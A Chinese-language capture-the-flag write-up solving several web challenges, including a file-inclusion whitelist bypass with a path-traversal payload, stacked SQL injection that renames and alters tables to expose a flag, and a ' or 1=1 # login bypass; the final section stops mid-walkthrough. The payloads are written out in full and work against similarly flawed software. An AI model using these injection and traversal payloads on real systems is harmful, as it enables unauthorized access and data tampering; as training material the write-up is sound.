## Web

#### [HCTF 2018]WarmUp

- 根据提示，代码审计。

- 检查页面元素，发现`source.php`

  

- 在URL后加`/source.php`，在网页上会显示源代码。审计。

- 发现`hint.php`。

  

- 在URL后加`/hint.php`，在网页上会显示:

  

- 再次审计源代码。

  

  - **必须满足if条件，才能包含file，这里也可以猜到可能考的是文件包含：**
    1. REQUEST['file']不为空
    2. REQUEST['file']是字符串
    3. checkFile($_REQUEST['file']) 为ture

- 这里回到checkFile 函数分析如何返回true。

  ```php
  public static function checkFile(&$page)
          {
              $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
              if (! isset($page) || !is_string($page)) {
                  echo "you can't see it";
                  return false;
              }
  						/*为了返回 true 两个条件必须满足
              	1 page存在 
              	2 page是字符串 ，
              	这里和外层的判断file一致*/
              if (in_array($page, $whitelist)) {
                  return true;
              }
  						/*判断传入的page或者是经过截断之后的page必须是source.php或hint.php*/
              $_page = mb_substr(
                  $page,
                  0,
                  mb_strpos($page . '?', '?')
              );
    					/*获取file两个？之间的字符串，放到url中就是http://ip/?file=xxx?中的file=xxx*/      
              if (in_array($_page, $whitelist)) {
                  return true;
              }
  
              $_page = urldecode($page); // 这里发现对_page进行了一次decode解码
              $_page = mb_substr(
                  $_page,
                  0,
                  mb_strpos($_page . '?', '?')
              );
              if (in_array($_page, $whitelist)) {
                  return true;
              }
              echo "you can't see it";
              return false;
          }
  ```

- 根据上面的判断构造payload。

  ```
  /source.php?file=source.php?../../../../../../../../ffffllllaaaagggg
  ```

- 在页面下方会出现flag。

  

#### [强网杯 2019]随便注

- 在输入框输入`1'`返回如下，证明存在SQL注入，判断出原SQL闭合方式为单引号闭合。

  ```
  error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1
  ```

- 在输入框中输入`1' order by 1#`，不报错，直到`1' order by 3#`，报出以下错误，说明列数为2。

  ```
  error 1054 : Unknown column '3' in 'order clause'
  ```

- 在输入框中输入 `1' union select 1,2#`，报出以下错误：

  ```
  return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
  ```
  
- 发现几乎全部关键字都给过滤，尝试使用堆叠注入。

- 在输入框中输入`1';show databases;#`，查询所有数据库：

  

- 在输入框中输入`1';show tables;#`，查询所有表：

  

- 查询两个表中所有列：发现flag在此表中。

  ```mysql
  1';show columns from `1919810931114514`;#
  ```

  

  ```mysql
  1';show columns from words;#
  ```

  

- 两表数据模式相似，尝试将两个表名字互换，直接查询`1919810931114514`表中内容：

  ```mysql
  1';RENAME TABLE `words` TO `words1`;RENAME TABLE `1919810931114514` TO `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;#
  ```

  - 将words表名改为words1，将1919810931114514表名改为words，将现在的words表中的flag列名改为id。设置数据库的默认编码为`utf8`。

- 在输入框中输入`1' or 1=1 #`，查询flag：

  

#### [极客大挑战 2019]EasySQL

- 在用户名框输入`1'`，在密码框输入`123456`。证明存在SQL注入，判断出原SQL闭合方式为单引号闭合。

  ```mysql
  You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '123456'' at line 1
  ```

- 一般，验证登录注册查询数据库可能会用以下语句：

  ```mysql
  select * from table_name where username='xxxx' and password='xxxxxx' ;
  ```

- 如果用户密码匹配正确则返回真值，通过验证成功登录。如果让它不匹配数据库也能返回真值那么就能绕过验证登录。

- 如果我们传入的 `username` 为 1' or 1=1 #，随意输入 `password`，那么传入后端验证时，sql语句就是

  ```mysql
  select * from table_name where username='1' or 1=1 # ' and password='xxxxxx' ;
  ```

- 因为sql语句中 # 为注释符，也就是

  ```mysql
  select * from table_name where username='1' or 1=1 
  ```

- 那么因为 `1=1` 恒为真，所以sql语句返回真值，成功实现绕过验证,得到flag。

  

#### [SUCTF 2019]EasySQL

- 首先尝试单引号闭合`1'	`，发现没有结果。

- 再尝试`order by`，`union`等一系列盲注语句，发现都没有结果，证明盲注的很多字符都被过滤掉了。

- 考虑堆叠注入。查询所有数据库：`1; show databases;#`

  

- 查询所有表：`1; show tables;#`

  

- 查询Flag表中字段，结果显示Nonono.

  ```mysql
  1;show columns from `Flag`;#
  ```

- 查看别人写好的Wp。得到flag。

  ```mysql
  1;set sql_mode=PIPES_AS_CONCAT;select 1
  *,1
  ```

  

#### [极客大挑战 2019]Havefun

- 检查页面元素，发现提示：

  

- 直接传参`?cat=dog`，即得flag。

  

#### [极客大挑战 2019]Secret 

- 查看源文件，发现`Archive_room.php`。

  

- 点击链接，跳转到`Archive_room.php`。

  

- 点击「SECRET」按钮。

  

- 查看`Archive_room.php`源码，发现`action.php`，说明这个速度很快，使用「Burpsuite」进行拦截。

  

